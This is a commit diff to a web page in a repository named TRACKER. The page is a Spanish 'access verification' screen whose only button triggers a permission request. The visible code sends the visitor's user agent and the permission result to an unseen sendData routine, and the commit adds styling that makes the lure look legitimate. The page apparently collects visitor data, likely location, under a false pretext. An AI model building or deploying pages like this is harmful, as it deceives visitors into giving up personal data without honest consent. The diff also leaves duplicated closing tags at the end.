

Before and after one commit to kyugorov-arch/TRACKER, a website: page public/index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -1,9 +1,56 @@
 <!DOCTYPE html>
-<html>
+<html lang="es">
+<head>
+<meta name="viewport" content="width=device-width, initial-scale=1.0">
+<title>Verificación</title>
+
+<style>
+body {
+  margin: 0;
+  height: 100vh;
+  display: flex;
+  justify-content: center;
+  align-items: center;
+  background: linear-gradient(135deg, #0f2027, #203a43, #2c5364);
+  font-family: Arial, sans-serif;
+  color: white;
+  text-align: center;
+}
+
+.container {
+  padding: 20px;
+}
+
+h1 {
+  font-size: 28px;
+  margin-bottom: 20px;
+}
+
+button {
+  font-size: 22px;
+  padding: 18px 40px;
+  border: none;
+  border-radius: 12px;
+  background: #00c6ff;
+  color: white;
+  cursor: pointer;
+  box-shadow: 0 5px 15px rgba(0,0,0,0.3);
+}
+
+button:active {
+  transform: scale(0.95);
+}
+</style>
+</head>
+
 <body>
 
-<h2>Haz clic para continuar</h2>
-<button onclick="start()">Continuar</button>
+<div class="container">
+  <h1>Verificación de acceso</h1>
+  <p>Presiona el botón para continuar</p>
+  <br>
+  <button onclick="start()">Continuar</button>
+</div>
 
 <script>
 async function sendData(data) {
@@ -23,10 +70,11 @@ function start() {
         userAgent: navigator.userAgent
       });
 
-      document.body.innerHTML = "Listo ✅";
+      document.body.innerHTML = "<h2>Verificado ✅</h2>";
     },
     async () => {
       await sendData({ error: "No dio permisos" });
+      document.body.innerHTML = "<h2>Error ⚠️</h2>";
     }
   );
 }
@@ -34,3 +82,6 @@ function start() {
 
 </body>
 </html>
+
+</body>
+</html>
```
